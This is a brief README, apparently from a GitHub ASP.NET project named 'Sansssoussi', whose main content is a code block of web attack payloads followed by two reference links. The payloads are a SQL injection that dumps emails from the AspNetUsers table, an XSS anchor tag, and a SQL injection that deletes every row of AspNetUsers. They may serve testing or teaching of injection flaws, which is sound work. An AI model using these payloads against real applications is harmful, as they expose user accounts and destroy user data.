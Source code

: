 # Sansssoussi

``` SQL
%' OR 1=1 Union select Email FROM AspNetUsers '%a

<a ONMOUSEOVER="alert(1)" href="#">XSS Attack!!</a>

%' OR 1=1; Delete FROM AspNetUsers where 1=1 OR Email like '%a
```

## References

[Console API](https://console.cloud.google.com/apis)

[Doc login](https://learn.microsoft.com/en-us/aspnet/core/security/authentication/social/google-logins?view=aspnetcore-6.0)
